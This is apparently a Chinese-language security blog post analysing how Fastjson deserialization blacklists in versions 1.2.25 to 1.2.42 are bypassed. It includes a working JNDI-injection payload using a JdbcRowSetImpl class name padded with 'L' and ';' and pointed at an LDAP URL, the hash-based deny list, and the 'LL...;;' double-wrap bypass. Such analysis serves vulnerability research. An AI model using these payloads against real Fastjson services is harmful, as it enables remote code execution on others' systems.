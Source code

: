 首先需要开启AutoTypeSupport：

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

给出poc

```java
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://localhost:7777/evil3",
	"autoCommit":true
}
```

运行即可弹出计算器：

![image-20220717104212783](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717104212783.png)

接下来调试分析一下，断点设置在checkAutoType()函数：

![image-20220717104806509](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717104806509.png)

首先由于payload加了`L，;`黑名单匹配不到从而绕过，接下来进入`TypeUtils.loadClass`加载

![image-20220717105026512](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717105026512.png)

可以看到当匹配到条件判断类名是否以`L`开头、以`;`结尾，如果是则将类名提取出来并加载，由此绕过补丁。

## Fastjson1.2.25-1.2.42补丁绕过(双写L;绕过、需要开启autotype)

在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH  的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

首先是黑名单改为hash

```java
denyHashCodes = new long[]{-8720046426850100497L, -8109300701639721088L, -7966123100503199569L, -7766605818834748097L, -6835437086156813536L, -4837536971810737970L, -4082057040235125754L, -2364987994247679115L, -1872417015366588117L, -254670111376247151L, -190281065685395680L, 33238344207745342L, 313864100207897507L, 1203232727967308606L, 1502845958873959152L, 3547627781654598988L, 3730752432285826863L, 3794316665763266033L, 4147696707147271408L, 5347909877633654828L, 5450448828334921485L, 5751393439502795295L, 5944107969236155580L, 6742705432718011780L, 7179336928365889465L, 7442624256860549330L, 8838294710098435315L};
```

在checkAutoType()函数中新增判断：如果类的第一个字符是 `L` 结尾是 `;`，则使用 substring进行去除。

![image-20220717111446400](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717111446400.png)

但是这里只进行了一次判断，因此可以通过添加两次的方式来绕过后面的黑名单校验。

之后调用TypeUtils.loadClass()函数时，传入的是`LLcom.sun.rowset.JdbcRowSetImpl;;`

```java
} else if (className.startsWith("L") && className.endsWith(";")) {
                String newClassName = className.substring(1, className.length() - 1);
                return loadClass(newClassName, classLoader);
```
